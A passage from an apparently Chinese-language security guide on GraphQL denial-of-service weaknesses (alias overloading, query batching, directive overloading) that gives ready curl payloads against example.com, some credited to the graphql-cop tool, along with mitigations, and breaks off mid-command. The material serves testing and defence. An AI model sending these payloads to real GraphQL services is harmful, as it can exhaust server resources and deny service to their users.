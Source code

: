 ```graphql
-d '{"query": "{ alias0:__typename \nalias1:__typename \nalias2:__typename \nalias3:__typename \nalias4:__typename \nalias5:__typename \nalias6:__typename \nalias7:__typename \nalias8:__typename \nalias9:__typename \nalias10:__typename \nalias11:__typename \nalias12:__typename \nalias13:__typename \nalias14:__typename \nalias15:__typename \nalias16:__typename \nalias17:__typename \nalias18:__typename \nalias19:__typename \nalias20:__typename \nalias21:__typename \nalias22:__typename \nalias23:__typename \nalias24:__typename \nalias25:__typename \nalias26:__typename \nalias27:__typename \nalias28:__typename \nalias29:__typename \nalias30:__typename \nalias31:__typename \nalias32:__typename \nalias33:__typename \nalias34:__typename \nalias35:__typename \nalias36:__typename \nalias37:__typename \nalias38:__typename \nalias39:__typename \nalias40:__typename \nalias41:__typename \nalias42:__typename \nalias43:__typename \nalias44:__typename \nalias45:__typename \nalias46:__typename \nalias47:__typename \nalias48:__typename \nalias49:__typename \nalias50:__typename \nalias51:__typename \nalias52:__typename \nalias53:__typename \nalias54:__typename \nalias55:__typename \nalias56:__typename \nalias57:__typename \nalias58:__typename \nalias59:__typename \nalias60:__typename \nalias61:__typename \nalias62:__typename \nalias63:__typename \nalias64:__typename \nalias65:__typename \nalias66:__typename \nalias67:__typename \nalias68:__typename \nalias69:__typename \nalias70:__typename \nalias71:__typename \nalias72:__typename \nalias73:__typename \nalias74:__typename \nalias75:__typename \nalias76:__typename \nalias77:__typename \nalias78:__typename \nalias79:__typename \nalias80:__typename \nalias81:__typename \nalias82:__typename \nalias83:__typename \nalias84:__typename \nalias85:__typename \nalias86:__typename \nalias87:__typename \nalias88:__typename \nalias89:__typename \nalias90:__typename \nalias91:__typename \nalias92:__typename \nalias93:__typename \nalias94:__typename \nalias95:__typename \nalias96:__typename \nalias97:__typename \nalias98:__typename \nalias99:__typename \nalias100:__typename \n }"}' \
'https://example.com/graphql'
```
为了缓解这个问题，实施别名计数限制、查询复杂性分析或速率限制，以防止资源滥用。

### **基于数组的查询批处理**

**基于数组的查询批处理** 是一种漏洞，其中 GraphQL API 允许在单个请求中批处理多个查询，使攻击者能够同时发送大量查询。这可能通过并行执行所有批处理查询来压垮后端，消耗过多的资源（CPU、内存、数据库连接），并可能导致 **服务拒绝（DoS）**。如果对批处理中的查询数量没有限制，攻击者可以利用这一点来降低服务可用性。
```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '[{"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}]' \
'https://example.com/graphql'
```
在这个例子中，10个不同的查询被批处理成一个请求，迫使服务器同时执行所有查询。如果利用更大的批处理大小或计算成本高的查询，这可能会使服务器过载。

### **指令过载漏洞**

**指令过载**发生在GraphQL服务器允许带有过多重复指令的查询时。这可能会使服务器的解析器和执行器不堪重负，特别是当服务器反复处理相同的指令逻辑时。如果没有适当的验证或限制，攻击者可以通过构造一个包含大量重复指令的查询来利用这一点，从而触发高计算或内存使用，导致**服务拒绝（DoS）**。
```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa }", "operationName": "cop"}' \
'https://example.com/graphql'
```
请注意，在前面的示例中，`@aa` 是一个可能未声明的自定义指令。通常存在的一个常见指令是 **`@include`**：
```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @include(if: true) @include(if: true) @include(if: true) @include(if: true) @include(if: true) }", "operationName": "cop"}' \
'https://example.com/graphql'
```
您还可以发送一个 introspection 查询以发现所有声明的指令：
```bash
curl -X POST \
-H "Content-Type: application/json" \
```